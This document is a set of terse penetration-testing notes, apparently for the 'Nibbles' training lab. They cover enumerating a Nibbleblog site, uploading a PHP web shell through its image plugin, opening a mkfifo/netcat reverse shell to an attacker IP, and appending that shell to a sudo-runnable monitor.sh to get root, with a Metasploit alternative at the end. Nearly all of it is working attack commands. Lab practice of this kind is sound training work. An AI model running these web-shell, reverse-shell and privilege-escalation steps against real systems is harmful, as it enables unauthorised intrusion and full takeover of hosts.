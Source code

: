 ENUM 
	nmap -sV --open -oA nibbles_initial_scan <ip address>.
	nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
	whatweb 10.129.42.190
	firefox 10.129.42.190
	curl 10.129.42.190
	whatweb http://10.129.42.190/nibbleblog
	search "nibbleblog exploit"
	gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
	curl http://10.129.42.190/nibbleblog/README
	Version: v4.0.3
	curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -
	gobuster dir -u http://10.129.42.190/ --wordlist /usr/share/dirb/wordlists/common.txt
	 curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -

	Make file that contains this php code as "image.php"
		<?php system('id'); ?>
 curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
 Same thing but now rev shell
	<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
Shell Upgrade
	python -c 'import pty; pty.spawn("/bin/bash")'
	python3 -c 'import pty; pty.spawn("/bin/bash")'



sudo -l 

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.237 8443 >/tmp/f' | tee -a monitor.sh

nc -nlvp 8443
sudo /home/nibbler/personal/stuff/monitor.sh


OR

msfconsole
search nibble
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD nibbles
set USERNAME admin
set RHOSTS 10.129.73.120
set TARGETURI nibbleblog
set LHOSTS 10.10.15.237








